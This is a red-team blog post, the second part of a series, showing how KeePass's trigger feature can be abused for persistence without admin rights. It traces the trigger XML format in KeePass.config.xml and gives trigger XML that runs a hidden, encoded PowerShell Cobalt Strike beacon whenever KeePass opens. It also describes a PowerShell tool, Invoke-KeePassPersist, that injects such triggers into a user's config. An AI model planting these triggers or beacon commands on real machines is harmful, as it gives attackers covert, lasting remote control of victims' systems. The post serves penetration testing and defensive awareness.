







In part 1 we saw how we can use KeePass to gain persistent access to a compromised system. The technique shown in part 1 required (in most cases) local admin access. In this post, we are going to look at another method for gaining persistence, which requires only user level access. Before we get started, shout out to Christophe for pointing me towards triggers as a possible persistence method.If you want to follow along, you will need the KeePass source code, which can be downloaded from here. You’ll also need KeePass installed, on two VMs if you want to follow all the post, but one will suffice. KeePass supports triggers, which are designed to allow automation of common tasks. Unlike plugins, triggers are defined within the KeePass UI; There’s no option for users to just drop a file to disk and have it automatically recognized. Allowing users to define triggers suggests that the trigger config is likely stored in a file somewhere. Lets try and figure out where and how these are stored. In Visual Studio, searching the solution explorer for “triggers” points us towards “EcasTriggersForm.cs”, which looks to be the form used to begin defining new triggers.  Viewing the code behind the “Add” button leads us to the EcasTrigger class. 1234567891011private void OnBtnAdd(object sender, EventArgs e){ EcasTrigger tNew = new EcasTrigger(true); EcasTriggerForm f = new EcasTriggerForm(); f.InitEx(tNew, false, m_ilIcons); if(UIUtil.ShowDialogAndDestroy(f) == DialogResult.OK) { m_triggers.TriggerCollection.Add(tNew); UpdateTriggerListEx(false); }} The code within EcasTrigger.cs contains references to XML and serialization, so we can make an educated guess and assume the config is likely stored in XML somewhere on disk. 1234567[XmlArray("Conditions")][XmlArrayItem("Condition")]public EcasCondition[] ConditionsArrayForSerialization{ get { return m_conds.CloneShallowToList().ToArray(); } set { m_conds = PwObjectList<EcasCondition>.FromArray(value); }} Looking at the OnBtnAdd code above, we can see it instantiates an instance of the EcasTriggerForm. This is the form where we configure the trigger. This codes doesn’t make it obvious where the config is written to. Rather than blindly dig through the code, we can use ProcMon to identify which files the app is writing to. With ProcMon running, launch KeePass and configure a trigger, it doesn’t matter what options are selected. ProcMon will capture a lot of data, so we’ll need to add some filters. First, we only want data from KeePass, so we can set a process name filter. It’s also unlikely that the config is stored in the registry, so we can exclude any registry operations. We know the file we want will not be a .dll, so we can exclude any path ending in .dll. We can also make a few other assumptions, such as the path not being in the Windows or Program Files directories (as standard users have permissions to add triggers). With filters applied, you won’t see anything interesting. KeePass only saves the triggers config on exit. Close KeePass and you should see more events captured, including a number of entries for “KeePass.config.xml” in the users App Data folder.  Looking at that file, we can see the trigger defined in XML. My trigger was named test, and displayed a messagebox containing “test”.  Here’s the trigger being executed when KeePass loads:  Now we know where trigger configurations are stored, lets look at how they are defined. We need to understand the Guid and TypeGuid values, as this will help us when we develop some tooling later. It’s likely that the TypeGuid values are static, as they define what type of action or trigger is in use. It’s also likely that the Guid value is random, but it’s easy enough to confirm this. Within the EicasTrigger class, there is a constructor which takes a bool as a parameter: 1234public EcasTrigger(bool bCreateNewUuid){ if(bCreateNewUuid) m_uuid = new PwUuid(true);} PwUuid(true) calls into CreateNew(), which generates a new GUID: 12345678910111213141516private void CreateNew(){ Debug.Assert(m_pbUuid == null); // Only call from constructor while(true) { m_pbUuid = Guid.NewGuid().ToByteArray(); if((m_pbUuid == null) || (m_pbUuid.Length != (int)UuidSize)) { Debug.Assert(false); throw new InvalidOperationException(); } // Zero is a reserved value -- do not generate Zero if(!Equals(PwUuid.Zero)) break; Debug.Assert(false); }} EcasTrigger(true) is called when a new trigger is defined. I won’t post the code, but its easy enough to confirm by finding all references to that call. The TypeGuids are a little more tricky. After some digging, it turns out they are defined as byte arrays. For actions, you can find the definitions in EcasDefaultActionProvider.cs. 123456789101112131415m_actions.Add(new EcasActionType(new PwUuid(new byte[] {0xDA, 0xE5, 0xF8, 0x3B, 0x07, 0x30, 0x4C, 0x13,0x9E, 0xEF, 0x2E, 0xBA, 0xCB, 0x6E, 0xE4, 0xC7 }),KPRes.ExecuteCmdLineUrl, PwIcon.Console, new EcasParameter[] {new EcasParameter(KPRes.FileOrUrl, EcasValueType.String, null),new EcasParameter(KPRes.Arguments, EcasValueType.String, null),new EcasParameter(KPRes.WaitForExit, EcasValueType.Bool, null),new EcasParameter(KPRes.WindowStyle, EcasValueType.EnumStrings,new EcasEnum(new EcasEnumItem[] {new EcasEnumItem(IdWindowNormal, KPRes.Normal),new EcasEnumItem(IdWindowHidden, KPRes.Hidden),new EcasEnumItem(IdWindowMin, KPRes.Minimized),new EcasEnumItem(IdWindowMax, KPRes.Maximized) })),new EcasParameter(KPRes.Verb, EcasValueType.String, null) },ExecuteShellCmd)); The Guids in the config file are are byte arrays, which are base64 encoded before being written. Those of you following along will have noticed one of the available actions is “Execute Commandline / URL”. Digging into the EcasDefaultActionProviders class, we find the ExecuteShellAction() method. I won’t paste it here, as it’s quite big, but following the code we can see it passes arguments into Process.Start(). Lets create a trigger that pops calc.  Re-running KeePass results in calc.exe spawning once we click past the master password prompt.  Looking at the config file XML, we can see how this trigger is defined. 1234567891011121314151617181920212223<Trigger> <Guid>N2//Lt8wc0em9wGoCduaUg==</Guid> <Name>calc</Name> <Events> <Event> <TypeGuid>2PMe6cxpSBuJxfzi6ktqlw==</TypeGuid> <Parameters /> </Event> </Events> <Conditions /> <Actions> <Action> <TypeGuid>2uX4OwcwTBOe7y66y27kxw==</TypeGuid> <Parameters> <Parameter>cmd.exe</Parameter> <Parameter>/c calc</Parameter> <Parameter>False</Parameter> <Parameter>0</Parameter> <Parameter /> </Parameters> </Action> </Actions> </Trigger> We now know that we can execute code via triggers, that users can define triggers without needing local admin rights, and the structure of the config file used. The last thing we need to confirm is that we can move this trigger to a new host and have it execute. On a new VM with KeePass installed, we can just paste the above XML into the config file and see what happens. I’m also going to try changing the command parameters, just to confirm there’s no validation baked into those GUIDs.  We can change the command and deploy the XML to a new host. The screenshot doesn’t really show it’s a new host — you’ll have to trust me (or try it yourself). One thing to note here is you MUST make sure KeePass is not running before you modify the config file, otherwise your changes will be overwritten when KeePass is closed (remember having to exit KeePass to see the write action in ProcMon?). Ok, let’s get a beacon running. We can generate a Powershell command from Cobalt Strike and drop that into our XML. 1234567891011121314151617181920212223<Trigger> <Guid>N2//Lt8wc0em9wGoCduaUg==</Guid> <Name>calc</Name> <Events> <Event> <TypeGuid>2PMe6cxpSBuJxfzi6ktqlw==</TypeGuid> <Parameters /> </Event> </Events> <Conditions /> <Actions> <Action> <TypeGuid>2uX4OwcwTBOe7y66y27kxw==</TypeGuid> <Parameters> <Parameter>cmd.exe</Parameter> <Parameter>/c powershell -nop -w hidden -encodedcommand JABzAD0AT<snipped></Parameter> <Parameter>False</Parameter> <Parameter>0</Parameter> <Parameter /> </Parameters> </Action> </Actions> </Trigger> Now when we run KeePass we see the host beaconing back. If you’re wondering about AV, Defender is disabled in Commando VM. You’ll have to build your own payload to bypass it ;) We can take this one step further and create a Powershell script to modify the config file for us. This version is a little bit naive, as it assumes you will always pass the command to CMD.exe via the /c switch and assumes KeePass isn’t running; I’ll leave improving it as an exercise for the reader. I’ve changed the config slightly to use the “hidden” window mode. This stops the CMD.exe window being visible when our command is run. To use, import the module and call Invoke-KeePassPersist, passing the command and the module name. It will generate a new GUID and modify the config file in the current users AppData directory. It supports existing triggers, so it wont overwrite anything. 12Import-Module .\KeePassPersist.ps1Invoke-KeePassPersist -Command calc.exe -Name two06 We now have a method of gaining persistence via KeePass, without needing local admin privileges. We also have some tooling to allow us to easily use this method in our engagements. As a final note, I want to stress that this is not a vulnerability in KeePass. This method simply uses existing functionality to achieve our goals. ← Previous Post Next Post→